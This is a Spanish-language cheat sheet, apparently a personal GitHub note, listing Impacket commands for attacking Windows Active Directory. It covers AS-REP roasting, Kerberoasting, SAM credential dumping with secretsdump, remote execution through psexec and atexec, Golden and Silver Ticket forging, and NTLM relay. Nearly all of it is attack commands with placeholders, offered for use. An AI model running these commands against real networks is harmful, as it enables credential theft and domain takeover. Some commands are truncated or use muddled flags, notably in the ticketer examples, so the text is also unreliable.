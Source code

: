#ActiveDirectory #windows 
### impacket-GetNPUsers:
Descripción: Extrae tickets TGT (Ticket Granting Ticket) sin necesidad de autenticación de contraseña, utilizando el protocolo Kerberos.
```python
impacket-GetNPUsers DOMAIN/USER -dc-ip <domain_controller_ip>
```
### impacket-psexec:
Descripción: Ejecuta comandos en un sistema remoto utilizando el servicio PsExec.
```python
impacket-psexec.py DOMAIN/USER:PASSWORD@TARGET_HOST CMD.EXE
```
### impacket-rpcdump:
Descripción: Realiza una enumeración de RPC en un host remoto.
```python
impacket-rpcdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-secretsdump:
Descripción: Extrae contraseñas almacenadas en la SAM (Security Accounts Manager) de un sistema Windows.
```python
impacket-secretsdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-GetUserSPNs:
enumerar los SPNs asociados a un usuario específico o a todos los usuarios en un dominio.
```python
impacket-GetUserSPNs.py -request <USER>:<PASSWORD> -dc-ip <DOMAIN_CONTROLLER_IP> <DOMAIN>/<USER>
```
### impacket-GetUserSPNs
Obtención del TGS: Una vez que hayas identificado el SPN deseado, puedes solicitar un TGS para ese SPN utilizando `GetUserSPNs
```python
impacket-GetUserSPNs.py <USER>:<PASSWORD> -spn <SPN_TO_TARGET> -dc-ip <DOMAIN_CONTROL
```
### impacket-ticketer Golden Ticket:
Para solicitar un Golden Ticket con Impacket, puedes usar `ticketer.py`. Aquí tienes un ejemplo de cómo hacerlo:
```python
impacket-ticketer.py -nthash <USER_NT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_NAME> -sid <USER_SID> -krbtgt <KRBTGT_HASH> -des <DESCRIPTOR> -rc4 <RC4_HASH> <USER_NAME>
------------------------------------------------------------------------------------------------------------------------------------------
Donde:    
    - `<USER_NT_HASH>` es el hash NT (hash de la contraseña) del usuario.
    - `<DOMAIN_SID>` es el SID (identificador de seguridad) del dominio.
    - `<DOMAIN_NAME>` es el nombre del dominio.
    - `<USER_SID>` es el SID del usuario.
    - `<KRBTGT_HASH>` es el hash del usuario KRBTGT.
    - `<DESCRIPTOR>` es el descriptor de seguridad del usuario (opcional).
    - `<RC4_HASH>` es el hash RC4 (opcional).
    - `<USER_NAME>` es el nombre de usuario del usuario.
```
### impacket-ticketer Silver Ticket:
Para solicitar un Silver Ticket con Impacket, también puedes usar `ticketer.py`. Aquí tienes un ejemplo de cómo hacerlo:
```python
impacket-ticketer.py -nthash <USER_NT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_NAME> -sid <USER_SID> -krbtgt <KRBTGT_HASH> -spn <SERVICE_SPN> <USER_NAME>
------------------------------------------------------------------------------------------------------------------------------------------
Donde:
    
    - `<USER_NT_HASH>` es el hash NT (hash de la contraseña) del usuario.
    - `<DOMAIN_SID>` es el SID (identificador de seguridad) del dominio.
    - `<DOMAIN_NAME>` es el nombre del dominio.
    - `<USER_SID>` es el SID del usuario.
    - `<KRBTGT_HASH>` es el hash del usuario KRBTGT.
    - `<SERVICE_SPN>` es el Service Principal Name (SPN) del servicio al que deseas acceder.
    - `<USER_NAME>` es el nombre de usuario del usuario.
```
### impacket-atexec:
Descripción: Permite ejecutar comandos en un sistema remoto utilizando el servicio Task Scheduler (programador de tareas).
```python
impacket-atexec.py DOMAIN/USER:PASSWORD@TARGET_HOST COMMAND
```
### impacket-dpapi:
Descripción: Proporciona herramientas para manipular DPAPI (Data Protection API) en sistemas Windows.
```python
impacket-dpapi.py
```
### impacket-esentutl:
Descripción: Permite interactuar con bases de datos ESENT (Extensible Storage Engine) en sistemas Windows.
```python
impacket-esentutl.py
```
### impacket-getArch:
Descripción: Obtiene la arquitectura del sistema remoto (32 o 64 bits).
```python
impacket-getArch.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlclient:
Descripción: Un cliente interactivo de SQL Server que se puede utilizar para ejecutar consultas SQL y comandos en un sistema remoto que ejecuta SQL Server.
```python
impacket-mssqlclient.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlinstance:
Descripción: Enumera las instancias de SQL Server en un sistema remoto.
```python
impacket-mssqlinstance.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlping:
Descripción: Realiza un ping a un servidor SQL para verificar la disponibilidad.
```python
impacket-mssqlping.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlservice:
Descripción: Enumera los servicios de SQL Server en un sistema remoto.
```python
impacket-mssqlservice.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-ntlmrelayx:
Descripción: Se utiliza para realizar ataques de relé NTLM en redes corporativas.
```python
impacket-ntlmrelayx.py -tf targets.txt
```
